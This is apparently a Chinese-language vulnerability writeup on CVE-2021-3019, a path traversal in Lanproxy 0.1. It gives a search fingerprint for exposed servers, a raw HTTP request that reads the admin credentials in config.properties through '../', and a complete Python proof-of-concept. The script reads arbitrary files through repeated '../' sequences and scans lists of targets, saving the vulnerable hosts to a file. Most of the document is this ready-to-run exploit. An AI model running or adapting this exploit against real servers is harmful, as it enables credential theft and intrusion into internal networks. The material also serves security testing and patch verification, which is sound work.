





Lanproxy 目录遍历漏洞 CVE-2021-3019¶
漏洞描述¶
Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。
漏洞影响¶
Lanproxy 0.1
网络测绘¶
header= "Server: LPS-0.1"
环境搭建¶
https://github.com/ffay/lanproxy/
漏洞复现¶
打开登录页面如下
使用Burp抓包发送如下请求
GET /../conf/config.properties HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

成功在配置文件中读取 账号密码

试着读取其他敏感文件


漏洞POC¶
#!/usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File : urllib.py
@Time : 2021/01/10 21:59:32
@Author : _0xf4n9x_
@Version : 1.0
@Contact : fanq.xu@gmail.com
@Desc : None
'''
import sys
import argparse
import os
from urllib import request
from urllib import error
banner = """
###### ## ## ######## ####### ##### ####### ## ####### ##### ## #######
## ## ## ## ## ## ## ## ## ## ## #### ## ## ## ## #### ## ##
## ## ## ## ## ## ## ## ## ## ## ## ## ## ##
## ## ## ###### ##### ####### ## ## ####### ## ##### ####### ## ## ## ########
## ## ## ## ## ## ## ## ## ## ## ## ## ##
## ## ## ## ## ## ## ## ## ## ## ## ## ## ## ## ##
###### ### ######## ######### ##### ######### ###### ####### ##### ###### #######
Author: _0xf4n9x_"""
headers = {
'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4080.0 Safari/537.36 Edg/82.0.453.0"}
def readConf(url):
"""
默认读取配置文件，并通过能否读取配置文件来判断是否存在漏洞
"""
config = [
'config.server.bind',
'config.server.port',
'config.admin.username',
'config.admin.password'
]
path = "/../conf/config.properties"
confUrl = url + path
r = request.Request(confUrl, headers=headers)
try:
with request.urlopen(r, timeout=10) as resp:
confContent = resp.read().decode('utf-8')
for i in config:
if i not in confContent:
print("[-] " + url + " is not vulnerable")
return 'Bye :('
print("[+] " + url + " is vulnerable! :)")
return confContent
except ConnectionResetError:
print("[-] " + url + " Connection reset by peer")
except error.HTTPError as e:
print("[-] " + url + e.code + e.reason)
except error.URLError as e:
print("[-] " + url + e.code + e.reason)
except:
print("[-] " + url + " is not vulnerable")
return 0
def readOtherFile(url, path):
"""
读取任意其他文件
"""
jumpSym = "/../../../../../../../../.."
fullUrl = url + jumpSym + path
r = request.Request(fullUrl, headers=headers)
with request.urlopen(r, timeout=10) as resp:
fileContent = resp.read().decode('utf-8')
print(fileContent)
def run(url, path="/../conf/config.properties"):
if os.path.isfile(url) == False:
# if 'http' not in url:
# url = 'http://' + url
url = 'http://' + url.replace('http://', '').replace('/', '')
if path == "/../conf/config.properties":
print(readConf(url))
else:
if readConf(url) not in [0, 'Bye :(']:
readOtherFile(url, path)
else:
urls = []
with open(url) as target:
urls = target.read().splitlines()
for url in urls:
# if 'http' not in url:
# url = 'http://' + url
url = 'http://' + url.replace('http://', '').replace('/', '')
if readConf(url) not in [0, 'Bye :(']:
with open("success.txt", "a+") as f:
f.write(url + "\n")
f.close()
def main():
parser = argparse.ArgumentParser(
description="CVE-2021-3019 lanproxy arbitrary file read vulnerability detection POC")
parser.add_argument('-u', '--url', type=str,
help="test a single website")
parser.add_argument('-r', '--read', type=str,
help="this parameter is followed by the file name to be read, the configuration file is read by default")
parser.add_argument('-f', '--file', type=str,
help="perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file")
args = parser.parse_args()
if len(sys.argv) <= 1:
parser.print_help()
elif sys.argv[1] in ['-u', '--url']:
if len(sys.argv) == 3:
run(args.url)
elif len(sys.argv) == 5:
run(args.url, args.read)
elif sys.argv[1] in ['-f', '--file']:
run(args.file)
if __name__ == "__main__":
print(banner)
main()
